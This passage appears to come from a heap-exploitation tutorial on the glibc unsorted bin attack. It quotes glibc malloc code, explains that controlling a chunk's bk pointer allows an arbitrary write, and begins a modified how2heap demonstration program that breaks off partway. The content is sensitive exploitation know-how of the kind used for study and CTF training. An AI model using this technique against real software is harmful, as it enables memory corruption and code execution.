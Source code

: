 
```C

          /* remove from unsorted list */

          if (__glibc_unlikely (bck->fd != victim))

            malloc_printerr ("malloc(): corrupted unsorted chunks 3");

unsorted_chunks (off) -&gt; bk = bck;
bck-&gt; fd = unsorted_chunks (off);
```



In other words, if we control the value of bk, we can write `unsorted_chunks (av)` to any address.






Here I will take [unsorted_bin_attack.c] (https://github.com/shellphish/how2heap/blob/master/unsorted_bin_attack.c) in shellphish&#39;s how2heap repository as an example. Here I make some simple modifications, as follows


```c

#include <stdio.h>

#include <stdlib.h>



int main() {

  fprintf(stderr, "This file demonstrates unsorted bin attack by write a large "

                  "unsigned long value into stack\n");

  fprintf(

      stderr,

      "In practice, unsorted bin attack is generally prepared for further "

      "attacks, such as rewriting the "

      "global variable global_max_fast in libc for further fastbin attack\n\n");



  unsigned long target_var = 0;

  fprintf(stderr,

          "Let's first look at the target we want to rewrite on stack:\n");

  fprintf(stderr, "%p: %ld\n\n", &target_var, target_var);



  unsigned long *p = malloc(400);

  fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",

          p);

  fprintf(stderr, "And allocate another normal chunk in order to avoid "
```